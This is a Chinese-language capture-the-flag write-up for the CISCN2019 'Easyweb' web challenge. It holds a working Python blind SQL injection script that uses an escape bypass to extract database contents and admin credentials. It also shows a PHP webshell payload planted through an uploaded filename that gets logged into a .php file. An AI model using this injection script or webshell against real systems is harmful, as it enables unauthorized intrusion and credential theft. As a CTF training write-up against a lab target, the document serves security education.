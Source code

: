 # \[CISCN2019 总决赛 Day2 Web1]Easyweb

## \[CISCN2019 总决赛 Day2 Web1]Easyweb

## 考点

* `.php.bak`源码泄露
* 盲注
* 利用转义进行bypass
* 文件上传
* `<?=`绕过`<?php`的限制

## wp

扫描发现robots.txt，其内容如下，意味着可以获取源码，目前已知的文件有 index.php，user.php，image.php

```
User-agent: *
Disallow: *.php.bak
```

发现image.php.bak存在，下载进行审计，可以看到如下代码

```
$id = $_GET['id'];
$id=addslashes($id);
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
```

如果输入参数`id=\\0` 那么最终处理后的内容为 `\\\`，SQL语句拼接如下

```
select * from images where or path='{$path}'
```

这就会转义单引号，使第一个单引号闭合第三个单引号

然后进行注入，发现过滤空格和单双引号，在请求 `id=\\0&path= or 1%23` 时返回正常图片，请求 `id=\\0&path= or 0%23` 时返回图片错误。这里就是盲注了

可以获得当前数据库为 ciscnfinal，表为 images,users，users表中的字段为username,password，内容为 admin d2bf6e35814ce4f64d44，这就拿到了用户名和密码，盲注脚本如下

```python
import requests

# python会对请求的url进行自动编码
# id=1\\0&path=or 0# 返回图片错误
# id=1\\0&path=or 1# 返回正常
# ?id=\\\\0&path=
url = "http://8fc867ee-ba5b-45b2-9b89-fa83966fd57b.node3.buuoj.cn/image.php"

# ciscnfinal
def get_database():
    flag = ''
    for i in range(1, 50):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            payload = f" or (ascii(substr((select database()),{i},1))>{mid})#"
            data = {
                'id': '\\\\0',
                'path': payload
            }
            r = requests.get(url=url, params=data)
            if len(r.text)==0:
                high = mid
            if len(r.text)>0:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
# get_database()

# images,users
def get_table():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            payload = f" or (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))>{mid})#"
            # print(payload)
            data = {
                'id': '\\\\0',
                'path': payload
            }
            r = requests.get(url=url, params=data)
            
            if len(r.text)==0:
                high = mid
            if len(r.text)>0:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
# get_table()

# username,password
def get_column():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            payload = f" or (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name=0x7573657273),{i},1))>{mid})#"
            # print(payload)
            data = {
                'id': '\\\\0',
                'path': payload
            }
            r = requests.get(url=url, params=data)
            
            if len(r.text)==0:
                high = mid
            if len(r.text)>0:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
# get_column()

# admin d2bf6e35814ce4f64d44
def get_admin():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            # payload = f" or (ascii(substr((select group_concat(username) from users),{i},1))>{mid})#"
            payload = f" or (ascii(substr((select group_concat(password) from users),{i},1))>{mid})#"
            # print(payload)
            data = {
                'id': '\\\\0',
                'path': payload
            }
            r = requests.get(url=url, params=data)
            
            if len(r.text)==0:
                high = mid
            if len(r.text)>0:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
get_admin()
```

直接登陆后，发现是文件上传，随意上传一个txt文件，发现返回了一个日志地址

```
logs/upload.fc2d5409b8eecc37e459fea44f30ce8e.log.php
```

访问之后显示

```
User admin uploaded file 123.txt.
```

这里包含了上传文件的文件名，就可以在上传文件的文件名那里去写shell，发现其过滤了`<?php` 但是可以使用 `<?=` 来绕过

上传文件名改为 `<?=eval($_POST['cmd']);?>` 即可getshell
